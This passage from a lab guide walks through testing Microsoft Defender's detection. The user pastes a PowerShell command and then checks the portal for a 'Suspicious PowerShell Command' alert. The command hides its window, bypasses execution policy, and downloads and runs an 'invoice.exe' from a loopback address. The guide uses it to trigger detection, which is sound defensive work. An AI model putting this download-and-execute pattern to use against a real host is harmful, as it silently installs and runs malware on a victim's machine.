 10. In the command prompt, enter the following code and press the
    **Enter** button.

<span class="mark">Copycode</span>

powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden
\$ErrorActionPreference= 'silentlycontinue';(New-Object
System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe',
'C:\\test-WDATP-test\\invoice.exe');Start-Process
'C:\\test-WDATP-test\\invoice.exe'

11. The Command Prompt window closes automatically. Wait for 5-10
    minutes. If successful, a new alert appears in the portal for the
    onboarded device.

<img src="./media/image10.png" style="width:6.5in;height:2.36875in"
alt="A screenshot of a computer Description automatically generated" />

12. Go back to **Microsoft Defender** portal and refresh the page.
    Navigate and click on **Incidents & alerts**, then click on
    **Alerts**. You’ll see the Alerts related to the execution of
    **Suspicious PowerShell Command**.
